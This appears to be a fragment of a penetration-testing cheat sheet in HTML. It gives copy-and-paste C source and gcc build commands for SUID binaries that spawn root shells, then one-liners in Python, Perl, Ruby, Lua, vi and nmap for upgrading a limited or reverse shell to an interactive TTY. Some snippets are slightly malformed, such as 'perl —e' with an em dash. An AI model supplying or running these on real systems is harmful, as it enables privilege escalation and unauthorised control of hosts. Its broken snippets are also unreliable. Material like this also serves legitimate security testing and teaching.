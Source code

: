 </tbody>
</table>
<h2>SUID Binary</h2>
<p>Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.</p>
<p>below are some quick copy and pate examples for various shells:</p>
<h3>SUID C Shell for /bin/bash</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}</pre>
</figure>
<h3>SUID C Shell for /bin/sh</h3>
<figure>
<pre>int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}</pre>
</figure>
<h3>Building the SUID Shell binary</h3>
<figure>
<pre>gcc -o suid suid.c</pre>
</figure>
<p>For 32 bit:</p>
<figure>
<pre>gcc -m32 -o suid suid.c</pre>
</figure>
<h2>TTY Shells</h2>
<p>Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like su from reverse shells.</p>
<h3>Python TTY Shell Trick</h3>
<figure>
<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>
</figure>
<figure>
<pre>echo os.system('/bin/bash')</pre>
</figure>
<h3>Spawn Interactive sh shell</h3>
<figure>
<pre>/bin/sh -i</pre>
</figure>
<h3>Spawn Perl TTY Shell</h3>
<figure>
<pre>exec "/bin/sh";
perl —e 'exec "/bin/sh";'</pre>
</figure>
<h3>Spawn Ruby TTY Shell</h3>
<figure>
<pre>exec "/bin/sh"</pre>
</figure>
<h3>Spawn Lua TTY Shell</h3>
<figure>
<pre>os.execute('/bin/sh')</pre>
</figure>
<h3>Spawn TTY Shell from Vi</h3>
<p>Run shell commands from vi:</p>
<figure>
<pre>:!bash</pre>
</figure>
<h3>Spawn TTY Shell NMAP</h3>
<figure>
<pre>!sh</pre>
</figure>